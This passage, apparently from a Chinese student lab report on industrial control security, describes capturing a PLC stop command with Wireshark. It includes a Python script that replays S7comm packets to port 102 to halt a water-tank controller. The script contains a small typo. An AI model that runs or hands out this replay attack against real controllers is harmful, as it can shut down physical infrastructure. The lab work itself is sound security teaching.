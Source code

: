    抓取发出停止指令的数据包

   ![image-20231124163425204](./assets/image-20231124163425204.png)

   

5. 利用抓取的数据包编写网络编程代码发起攻击，攻击成功之后，储水罐系统停止工作。

此次未拍照，但是在课堂上已交给老师检查



实验代码如下

```python
import binascii
import socket
import time

client_socket = socket.socket(socket.AF_INET,sockett.SOCK_STREAM)
aimAddress = ('192.168.1.3',102)
client_socket.connect(aimAddress)

client_socket.settimeout(1)
piserve = '0300001611e0000000300c102010101c2020101c0010a'
setup = '0300001902f08032010000ccc100080000f00009001000103c0'
stop = '0300002102f0803201000000050010000290000900000009505f50524f4752414d'

client_socket.send(binascii.unhexlify(piserve))
time.sleep(1)
print(1)

client_socket.send(binascii.unhexlify(setup))
time.sleep(1)
print(2)

client_socket.send(binascii.unhexlify(stop))
time.sleep(1)
print(3)

client_socket.close()
```



## 五、回答问题



1. 攻击者如何获得操控PLC有关指令的数据包及其格式？

> 1. 开始捕获：
>
> 选中要监听的网络接口，Wireshark将开始捕获该接口上的网络流量。
>
> 
>
> 2. 过滤数据包：
>
> 在Wireshark上设置过滤条件，以仅捕获与PLC相关的数据包。
>
> 
>
> 3. 分析数据包：
>
> 捕获结束后，你可以查看捕获到的数据包列表。双击每个数据包以查看其详细信息，包括源地址、目标地址、协议、数据内容等。